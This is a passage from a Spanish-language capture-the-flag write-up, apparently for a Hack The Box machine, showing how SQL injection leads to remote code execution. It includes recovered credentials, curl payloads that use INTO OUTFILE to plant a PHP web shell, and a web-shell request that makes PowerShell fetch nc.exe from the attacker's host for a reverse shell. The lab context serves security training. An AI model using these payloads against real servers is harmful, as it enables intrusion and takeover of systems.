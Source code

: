 Identificando así las credenciales:

```text
manager:l3tm3!n
hector:l33th4x0rhector
```

### RCE

Después de obtener las credenciales y buscar emplearlas con los servicios expuestos en la máquina (mysql únicamente dado que no se cuenta con `smb` o algún otro servicio en donde se pudieran haber usado) [se buscó la forma](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/) para que mediante la inyección SQL se para pudiera lograr la ejecución remota de código mediante la escritura de un script en php, haciendo uso de instrucciones como `INTO OUTFILE` o `INTO DUMPFILE`.

Para lograrlo fue necesario identificar el directorio en el que se encuentra la instalación, de acuerdo al [enlace encontrado](https://docs.microsoft.com/en-us/previous-versions/office/developer/sharepoint-2010/ms474356(v=office.14)) se indica que por predeterminado la ruta suele ser `c:\inetpub\wwwroot`, permitiendo de esta forma complementar hacia dónde debería dirigirse la escritura del script.

Después de probar con diferentes payloads respecto al escape de las barras (`\`), dado que la respuesta del servidor es identificada como un `500 Internal Server Error`, se realizó una prueba de la escritura mediante:

```bash
curl -i http://10.10.10.167/view_product.php -X POST -F "productId=26 UNION ALL SELECT 'Hello world' INTO OUTFILE 'c:\\\\\\\\inetpub\\\\wwwroot\\\\test.txt'-- -"
```

Logrando escribir satisfactoriamente al archivo indicado.

***En este punto es importante recalcar para futuros escenarios similares que no siempre es verdad que porque la respuesta del servidor sea 500, significa que no se esté ejecutando el payload indicado.***

![Petición creación de archivo](images/exploit_5.png)

Visualizandolo en el servidor.

![Visualización en navegador](images/exploit_6.png)

Permitiendo de esta manera cambiar el payload a 

```bash
curl -i http://10.10.10.167/view_product.php -X POST -F 'productId=26 UNION ALL SELECT "<?php system($_GET[\"cmd\"])?>" INTO OUTFILE "c:\\\\\\\\inetpub\\\\wwwroot\\\\srrequiem.php"-- -'
```

Logrando así tener un script listo para ejecutar comandos en la máquina.

![Webshell](images/exploit_7.png)

Por lo que se estableció una reverse shell haciendo uso del binario `nc.exe`, subiéndolo a la máquina mediante la request:

```text
http://10.10.10.167/srrequiem.php?cmd=powershell.exe%20iwr%20http://10.10.14.16/nc.exe%20-outfile%20c:\windows\temp\nc.exe
```
